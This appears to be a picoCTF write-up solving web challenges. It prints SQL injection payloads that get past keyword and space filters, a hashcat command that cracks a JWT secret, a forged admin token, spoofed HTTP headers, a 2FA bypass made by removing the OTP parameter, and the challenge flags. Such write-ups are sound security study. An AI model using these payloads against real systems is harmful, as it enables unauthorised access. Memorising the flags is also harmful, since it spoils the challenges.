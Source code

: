 ### **Web Gauntlet - 1**  

#### **Initial Analysis**  
We’re given a login page and need to authenticate as `admin`. The SQL query displayed after a failed login attempt:  
```sql
SELECT * FROM users WHERE username='admin' AND password='passwd'
```

#### **Round 1: Bypassing `or` Filter**  
**Filter:** `Round1: or`  
**Injection:**  
```bash
(base) harsh@Dioxie:/mnt/c/Users/Asus/OneDrive$ username: admin' -- 
```
**Result:** Bypassed by commenting out the password check.  

---

#### **Round 2: Additional Filters**  
**Filter:** `Round2: or and = like --`  
**Approach:** Used multiline comments (`/* */`) to evade space filtering.  
```bash
(base) harsh@Dioxie:/mnt/c/Users/Asus/OneDrive$ username: admin'/*
```
**Verification:** Confirmed via SQL query manipulation.  

---

#### **Round 3: Stricter Filters**  
**Filter:** `Round3: or and = like > < -- (spaces blocked)`  
**Solution:** Removed spaces and reused multiline comments:  
```bash
(base) harsh@Dioxie:/mnt/c/Users/Asus/OneDrive$ username: admin'/*
```

---

#### **Round 4: `admin` Keyword Blocked**  
**Filter:** `Round4: or and = like > < -- admin`  
**Workaround:** Used string concatenation (`||`):  
```bash
(base) harsh@Dioxie:/mnt/c/Users/Asus/OneDrive$ username: admi'||'n' --
```

---

#### **Round 5: Final Round**  
**Filter:** `Round5: or and = like > < -- union admin`  
**Injection:** Reused previous payload successfully.  

**Flag:**  
```bash
picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}
```

---

### **Web Gauntlet - 2&3**  


#### **Single-Round Challenge**  
**Filters:** `or and true false union like = > < ; -- /* */ admin`  
**Constraints:** Injection must be <35 characters.  

#### **Solution**  
```sql
SELECT username, password FROM users WHERE username='admi'||'n' AND password='a'is not 'b'
```

**Flag:**  
```bash
picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}
picoCTF{k3ep_1t_sh0rt_30593712914d76105748604617f4006a}
```

---

### **Irish Name Repo Series**  
#### **Part 1 & 2**  
**Vulnerability:** Classic SQLi.  
```bash
(base) harsh@Dioxie:/mnt/c/Users/Asus/OneDrive$ username: admin' -- 
```
**Flag:** `picoCTF{s0m3_SQL_fb3fe2ad} , picoCTF{m0R3_SQL_plz_fa983901}`  

#### **Part 3 (ROT-13 Twist)**  
**Discovery:** Password field used ROT-13 encoding.  
**Payload:** `' BE '1'='1' --` → Decoded to `' OR '1'='1' --`.  
**Flag:** `picoCTF{3v3n_m0r3_SQL_06a9db19}`  

---

### **JaWT Scratchpad**  
#### **JWT Token Exploit**  
1. Registered as `john` and intercepted JWT.  
2. Cracked secret (`ilovepico`) using Hashcat:  
```bash
(base) harsh@Dioxie:/mnt/c/Users/Asus/OneDrive$ hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt --show
```
3. Forged admin token:  
```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.8gJ0ywfYjX3h6JZk7W0Qw4l5mZaXeR1n8vL2sKp3Y0
```
**Flag:** `picoCTF{jawt_was_just_what_you_thought_f859ab2f}`  

---

### **Who Are You?**  
#### **HTTP Header Manipulation**  
**Final Headers:**  
```http
GET / HTTP/1.1
Host: mercury.picoctf.net:1270
User-Agent: PicoBrowser
Referer: mercury.picoctf.net:1270
Date: Sun, 06 Nov 2018 08:49:37 GMT
DNT: 1
X-Forwarded-For: 103.69.158.255  # Swedish IP
Accept-Language: sv-SE
```
**Flag:** `picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_f56f58a5}`  

---

### **Intro to Burp**  
#### **OTP Bypass**  
1. Registered an account.  
2. Intercepted 2FA request and removed the OTP parameter.  
**Flag:** `picoCTF{#0TP_Bypvss_SuCc3$S_c94b61ac}`  

---

### **Key Takeaways**  
- **SQLi:** Mastered evasion techniques (comments, concatenation).  
- **JWT:** Cracked secrets and forged tokens.  
- **Headers:** Manipulated HTTP headers for access control.  
- **Burp Suite:** Bypassed 2FA by parameter tampering.  
